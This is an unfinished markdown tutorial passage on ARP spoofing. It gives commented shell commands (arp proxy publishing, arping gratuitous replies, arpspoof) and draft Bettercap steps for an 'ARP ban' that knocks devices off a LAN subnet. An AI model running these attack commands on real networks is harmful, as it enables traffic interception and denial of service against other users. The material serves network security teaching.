 ```sh
# that the legitimate answer may come after our own, overriding it.
sudo arp -s $VICTIM_IP auto pub only ifscope $INTERFACE

# NOTE: This is only currently easy on true UNIX, like BSD. Attempts
# to publish a Proxy ARP entry on GNU/Linux requires a kernel tunable
# (`net.ipv4.conf.${INTERFACE}.proxy_arp`) and proper routing tables.
# If you really want to attempt this as a GNU/Linux user, you will
# ulimately want to invoke a command such as the following after setting
# up your IP routing tables appropriately. ("Appropriately" means what?)
# Some guidance at http://linux-ip.net/html/tools-ip-neighbor.html
#sudo arp -Ds $VICTIM_IP $INTERFACE pub

# To improve the liklihood of successfully poisoning the target's ARP cache,
# we want to continuously broadcast the wrong information, repeatedly.
# The "wrong information" means an ARP packet whose payload contains:
#
# * The `Sender MAC address` field set to the MAC address of the attacker.
# * The `Sender IP address` field set to the IP address of the target.
# * The `Target MAC address` field set to the broadcast MAC address.
# * The `Target IP address` field set to 0.0.0.0.
#
# This should be sent as an ARP reply (opcode `0x02`).
#
# What this does is tell devices that the IP address of the target is
# associated with the MAC address of the attacker; hence, ARP spoofing.

# One way we could construct such an ARP packet manually is like so:
sudo arping -i $INTERFACE -U -P -S $VICTIM_IP 0.0.0.0

# More simply, we can just use the `arpspoof` tool:
arpspoof $VICTIM_IP
```

> :construction: TK-TODO: This whole section is still just notes.
> 
> Automate portions of the above with tooling. Ettercap and Bettercap are the famous tools for this:
> 
> * Quick demo of Bettercap's "ARP ban" (spoofs the gateway's MAC address) that knocks a device off the LAN:
>     1. Launch `bettercap` with `sudo bettercap`
>     1. Find a target: `net.show`
>     1. Set the target (otherwise, entire subnet is the target): `set arp.spoof.targets 192.168.9.10-50`
>     1. Activate the ARP ban hammer: `arp.ban on`
>     1. End the attack: `arp.ban off`

# Discussion

> :construction: TK-TODO

# Additional references


